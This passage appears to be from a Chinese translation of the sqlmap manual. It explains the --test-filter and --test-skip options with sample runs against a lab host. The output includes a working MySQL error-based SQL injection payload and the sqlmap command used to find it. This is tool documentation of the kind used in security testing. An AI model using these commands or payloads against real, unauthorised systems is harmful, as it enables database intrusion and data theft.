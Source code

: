```shell
[xx:xx:24] [INFO] ORDER BY technique seems to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending t
he range for current UNION query injection technique test
[xx:xx:24] [INFO] target URL appears to have 3 columns in query
[xx:xx:24] [INFO] GET parameter 'id' is 'MySQL UNION query (NULL) - 1 to 20 colu
mns' injectable
[...]
```

## 根据 payloads 和/或标题选择（或跳过）测试

选项：`--test-filter`

如果你想根据 payloads 和/或标题过滤测试，可以使用此选项。例如，要测试所有包含 `ROW` 关键字的 payloads，可以使用 `--test-filter=ROW`。

针对 MySQL 目标的示例：

```shell
$ python sqlmap.py -u "http://192.168.21.128/sqlmap/mysql/get_int.php?id=1" --b\
atch --test-filter=ROW
[...]
[xx:xx:39] [INFO] GET parameter 'id' is dynamic
[xx:xx:39] [WARNING] reflective value(s) found and filtering out
[xx:xx:39] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')
[xx:xx:39] [INFO] testing for SQL injection on GET parameter 'id'
[xx:xx:39] [INFO] testing 'MySQL >= 4.1 AND error-based - WHERE or HAVING clause
'
[xx:xx:39] [INFO] GET parameter 'id' is 'MySQL >= 4.1 AND error-based - WHERE or
 HAVING clause' injectable GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any
)? [y/N] N
sqlmap identified the following injection points with a total of 3 HTTP(s) reque
sts:
---
Place: GET
Parameter: id
    Type: error-based
    Title: MySQL >= 4.1 AND error-based - WHERE or HAVING clause
    Payload: id=1 AND ROW(4959,4971)>(SELECT COUNT(*),CONCAT(0x3a6d70623a,(SELEC
T (C
    ASE WHEN (4959=4959) THEN 1 ELSE 0 END)),0x3a6b7a653a,FLOOR(RAND(0)*2))x FRO
M (S
    ELECT 4706 UNION SELECT 3536 UNION SELECT 7442 UNION SELECT 3470)a GROUP BY x)
---
[...]
```

选项：`--test-skip=TEST`

如果你想根据 payloads 和/或标题跳过测试，可以使用此选项。例如，想要跳过包含 `BENCHMARK` 关键字的 payloads，可以使用 `--test-skip=BENCHMARK`。

## 交互式 sqlmap shell

